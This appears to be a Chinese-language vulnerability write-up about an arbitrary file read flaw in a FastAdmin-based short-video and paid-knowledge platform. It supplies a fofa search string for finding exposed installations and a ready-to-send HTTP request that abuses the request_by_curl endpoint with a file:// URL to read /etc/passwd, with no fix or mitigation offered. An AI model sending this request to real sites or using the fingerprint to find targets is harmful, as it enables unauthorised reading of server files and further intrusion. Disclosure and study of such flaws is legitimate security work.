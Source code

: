 # 短视频系统视频知识付费系统存在任意文件读取漏洞

# 一、漏洞简介
短视频系统视频知识付费系统是FastAdmin框架短视频系统/视频知识付费源码/附带小说系统，系统视频支持包月、单独购买、观影卷等功能。短视频系统视频知识付费系统存在任意文件读取漏洞

# 二、影响版本
+ <font style="color:rgb(51, 51, 51);">短视频系统视频知识付费系统</font>

# <font style="color:rgb(51, 51, 51);">三、资产测绘</font>
+ fofa`"testvideo://login?id="`
+ 特征

![1732590500428-b97fa7a7-1614-41b1-bbe8-c54cb6182208.png](./img/1DDZ9fZyRHdnns0P/1732590500428-b97fa7a7-1614-41b1-bbe8-c54cb6182208-475278.png)

# 四、漏洞复现
```plain
GET /index/index/request_by_curl?remote_server=file:///etc/passwd&post_string=1 HTTP/1.1
Host:
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![1732590542557-0279172f-b4e1-423f-9093-909316a7e452.png](./img/1DDZ9fZyRHdnns0P/1732590542557-0279172f-b4e1-423f-9093-909316a7e452-044964.png)



> 更新: 2024-11-27 10:00:05  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rwak2pbxsqgk7mau>